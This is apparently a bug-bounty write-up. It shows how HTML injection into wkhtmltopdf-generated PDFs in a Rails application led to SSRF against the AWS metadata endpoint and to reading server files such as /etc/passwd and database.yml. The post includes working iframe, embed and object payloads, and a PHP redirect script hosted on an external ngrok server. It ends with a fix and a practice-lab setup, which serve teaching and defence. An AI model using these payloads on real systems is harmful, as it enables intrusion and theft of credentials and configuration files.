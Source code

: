 ```yaml
---
title: "SSRF to Local File Read"
date: 2021-03-31
tags: [BugBounty, BugBountyTips, Server Side Request Forgery, Local File Disclosure, SSRF, LFI, Ruby On Rails, Rails]
excerpt: "SSRF to Local File Read"
header:
  image: "assets/images/BugBountyImages/ssrf/ssrf_to_lfi.png"

---
```


Greetings everyone, this blog post is about the vulnerability that I have identified in `Wkhtmltopdf` gem, which was allowing users to inject HTML in the pdf files, and after doing further research, I was able to identify that the parser's functionality was vulnerable to internal SSRF attack, which further allowed me to read server's local file.

Injecting the simple HTML payload the code section oft the application `"><h1>XSS</h1>`

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png" alt="">

Loading the PDF file show's the injected HTML has been successfully executed in our PDF file. 

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png" alt="">


So as you can see HTML injection is happening in our pdf file and at this time as one's my excitement level can be high, Since we know in these kinds of cases there are high chances to find internal SSRF or read local files from the server.

So the next thing I did is to send an XHR request using file:///,As mentioned in the blog post by noob ninja [LFI to XSS](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

```ruby
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script
```

But nothing happened. I realized that the script was blocked and the XHR request got failed. Okay so, the next thing that I have tried is to send the request to my server and checked the response headers. I used simple payload `"><img src="[http://406e7772.ngrok.io](http://406e7772.ngrok.io/)">` and I was presented with the `User-agent` header as `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34`.

I also tried to extract passwd file using the payload `"><iframe src="file:///etc/passwd" height="500" width="500">` it didn't worked as well, got a blank pdf file.

From the user-agent, `wkhtmltopdf` sounds suspicious to me, and after doing a bit of googling I was able to find that `wkhtmltopdf` is vulnerable to SSRF Attacks. [Issue link.](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)

It was time to try to call AWS metadata API's and that's what I did. So I used an iframe to request internal AWS API's

```ruby
"><iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height="500" width="500">
```

and I was presented with meta data response. I was able to fetch instance identity.

```ruby
document
signature
pkcs7
rsa2048
```

So at this point it was a confirmed internal SSRF.

I didn't want to stop there, as I wanted to exploit it further and read the local files of the server. My hunger just to get read local files so I can sleep peacefully.

As mentioned in the above blog post, `wkhtmltopdf` is vulnerable to SSRF attack and it's through the location header.

```ruby
<?php
     header('location:http://127.0.0.1');
?>
```

So, what I did, create a php file with the following content:

```ruby
<?php header('location:file://'.$_REQUEST['url']); ?>
```

Hosted this PHP file on my ngrok server and then I sent the payload as:

```ruby
"><iframe height="2000" width="800" src=http://c723862e.ngrok.io/test.php?x=%2fetc%2fpasswd></iframe>
```

and i was presented with the PDF file

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png" alt="">

Yayy!! I was able to read the local file of the server. as I know more about the organization and how they store their application internally I tried to fetch their database.yml file in path `/config/database.yml` but it did not succeed. Later, I figured it out that they had their database file in `/var/company_name/config/database.yml` and I was able to read their DB file as well.

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/database.png" alt="">

### Payloads

In case script and iframe are blocked you can use these payloads:

```html
embed
object
img
```

And you can further craft your payload as:

```html
"><embed src="http://169.254.169.254/latest/dynamic/instance-identity/" width=”200″ height=”200" />

"><object data="http://169.254.169.254/latest/dynamic/instance-identity/" width="400" height="300" type="text/html"></object>

"><img src='http://169.254.169.254/latest/dynamic/instance-identity/' height="2000" width="800">
```

### How to fix this SSRF?

To fix this vulnerability use `-disable-local-file-access` while converting HTML files into PDF.

if you are using wicked_pdf then introduce the `disable_local_file_access` parameter in `parse_others`function. it should look like this:

```ruby
r += make_options(options, [:book,
		                              :other_parameters
                                  :disable_smart_shrinking,
                                  :disable_local_file_access,
                                  :no_stop_slow_scripts], '', :boolean)
```

### Re-creating SSRF locally!

So, I did coded this for my friend so he can practice this bug type.

to reproduce this issue first you need to install wkhtmltopdf in your machine.

**Installation for Debian:**

```bash
$ apt-get install libfontenc1 xfonts-75dpi xfonts-base xfonts-encodings xfonts-utils openssl build-essential libssl-dev libxrender-dev git-core libx11-dev libxext-dev libfontconfig1-dev libfreetype6-dev fontconfig -y
$ wget https://github.com/wkhtmltopdf/wkhtmltopdf/releases/download/0.12.5/wkhtmltox_0.12.5-1.bionic_amd64.deb
$ dpkg -i wkhtmltox_0.12.5-1.bionic_amd64.deb
$ apt --fix-broken install
```

**Installation for Kali Linux:**

```bash
$ sudo apt-get install wkhtmltopdf
```

<script src="https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd.js"></script>


<script src="https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707.js"></script>

Host these two files on your apache2 server and now you can go to the URL `[http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>](http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>)` once you hit this URL, a test.html file will be created with your supplied input and a PDF file will be generated.

You are good to go with your SSRF to LFI lab and practice it further! ;)
